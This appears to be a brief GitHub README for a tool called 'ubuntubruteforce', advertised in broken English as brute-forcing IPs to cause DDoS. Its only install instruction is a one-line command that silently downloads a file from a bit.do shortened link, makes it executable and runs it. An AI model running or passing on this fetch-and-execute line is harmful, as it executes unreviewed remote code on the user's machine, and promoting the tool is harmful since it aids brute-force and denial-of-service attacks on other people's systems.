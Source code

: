 # ubuntubruteforce
Brute Force Ips Do Make DDos:)

<p>How To Install A forceing</p><br>

````
curl -skLO bit.do/ubuntubruteforce ; chmod +x ubuntubruteforce ; ./ubuntubruteforce

````
